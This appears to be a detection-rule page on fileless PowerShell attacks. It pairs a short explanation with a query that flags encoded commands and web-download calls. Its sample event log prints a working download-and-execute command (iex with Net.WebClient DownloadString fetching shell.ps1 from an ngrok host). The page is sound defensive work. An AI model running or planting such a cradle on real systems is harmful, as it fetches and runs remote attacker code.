

# Fileless Malware with PowerShell

## Scenario Description

  Fileless attacks are the type of attacks that avoid writing files to the disk. They might have malicious code that operates entirely in memory, leveraging legitimate system tools and processes to execute their payloads. It doesn’t mean Fileless attacks don’t write files at all. They might start from a malicious document with a macro or a .LNK file (desktop shortcuts), but the remainder of the attack becomes fileless.Instead of dropping more executable files or scripts onto the target system, attackers inject malicious code directly into running processes or use built-in Windows tools like PowerShell, Windows Management Instrumentation (WMI), LOLBAS/LOLBINS, and registry keys to carry out their objectives [more](https://medium.com/maltrak/fileless-attacks-at-a-glance-weaponizing-powershell-microsoft-legitimate-apps-39d973096f6c).
## Objective

  To detect **potentially malicious PowerShell activity** by process arguments and command line
## Detection Logic / Query
```sql

  process.name: "powershell.exe" and 
  process.args:
    "*-EncodedCommand*" or 
    "*IEX*" or 
    "*Invoke-WebRequest*" or 
    "*Net.WebClient*" or 
    "*FromBase64String*" or
    "*DownloadString*"
```
## Sample Alert Screenshot


## Logs or Sample Event

```powershell
"@timestamp","process.name","process.command_line","process.args","event.code","winlog.event_id"
"Jun 4, 2025 @ 21:07:43.327","powershell.exe","""C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"" -command ""iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)""","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe, -command, iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)",behavior,"-"
"Jun 4, 2025 @ 21:07:43.299","powershell.exe","""C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"" -command ""iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)""","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe, -command, iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)","-","-"
```
## Detection Status

  - [ ] Detection Tested 
  - [ ]  Alert Triggered 